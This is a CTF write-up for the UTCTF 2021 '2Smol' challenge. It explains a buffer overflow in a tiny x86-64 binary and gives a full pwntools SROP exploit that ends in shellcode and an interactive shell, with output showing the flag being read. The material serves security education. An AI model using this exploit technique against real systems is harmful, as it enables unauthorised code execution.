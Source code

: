 # UTCTF 2021

## 2Smol

> 910
>
> I made this binary 2smol.
> 
> by `hukc`
>
> [smol](smol)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

> See [Some Really Ordinary Program](https://github.com/datajerk/ctf-write-ups/tree/master/nahamconctf2021/some-really-ordinary-program) for a nearly an identical writeup.

We have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
0000000000401000 <_start>:
  401000:	e8 08 00 00 00       	call   40100d <main>
  401005:	b8 3c 00 00 00       	mov    eax,0x3c
  40100a:	0f 05                	syscall
  40100c:	c3                   	ret

000000000040100d <main>:
  40100d:	55                   	push   rbp
  40100e:	48 89 e5             	mov    rbp,rsp
  401011:	48 83 ec 08          	sub    rsp,0x8
  401015:	48 8d 7d f8          	lea    rdi,[rbp-0x8]
  401019:	e8 05 00 00 00       	call   401023 <_read>
  40101e:	48 89 ec             	mov    rsp,rbp
  401021:	5d                   	pop    rbp
  401022:	c3                   	ret

0000000000401023 <_read>:
  401023:	55                   	push   rbp
  401024:	48 89 e5             	mov    rbp,rsp
  401027:	48 83 ec 08          	sub    rsp,0x8
  40102b:	48 89 fe             	mov    rsi,rdi
  40102e:	bf 00 00 00 00       	mov    edi,0x0
  401033:	ba 00 02 00 00       	mov    edx,0x200
  401038:	b8 00 00 00 00       	mov    eax,0x0
  40103d:	0f 05                	syscall
  40103f:	48 89 ec             	mov    rsp,rbp
  401042:	5d                   	pop    rbp
  401043:	c3                   	ret
```

Yep, that's all of it.  `main` allocates 8 bytes on the stack, and then calls `read` with said stack location, however `read` sets `rdx` to `0x200` creating a buffer overflow.  Send anything over 16 bytes (stack + `push rpb`) and you'll segfault.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rwx [heap]
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, lets look at the memory map.  Other than the stack, there is a 4K page of memory (the heap) that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the middle of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol')
binary.symbols['main'] = 0x40100d

if args.REMOTE:
    p = remote('pwn.utctf.live', 9998)
else:
    p = process(binary.path)
```

Standard pwntools header with some symbols added for `main`.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x4027f8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack in the middle of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += 16 * b'A'
payload += p64(binary.sym.main)
payload += p64(syscall)
payload += bytes(frame)

p.send(payload)
time.sleep(.1)
```

The payload just needs to fill up the `8` byte buffer plus 8 bytes for the `push rbp`, then call `main` followed by `syscall` and our frame.

> The .1 sleep is required to allow `read` to exit before our next `read` attack.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
time.sleep(.1)
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After that the rt_sigreturn syscall will kick in and update all the registers with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

> The .1 sleep is required to allow `read` to exit before our next `read` attack.

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += 16 * b'A'
payload += p64(stack + 8)
payload += asm(shellcraft.sh())

p.send(payload)
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time set the return address with the location of our shellcode to be appended at the end.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/utctf2021/smol/smol'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ id
uid=1000(srop) gid=1000(srop) groups=1000(srop)
$ cat flag.txt
utflag{srop_xd}
```

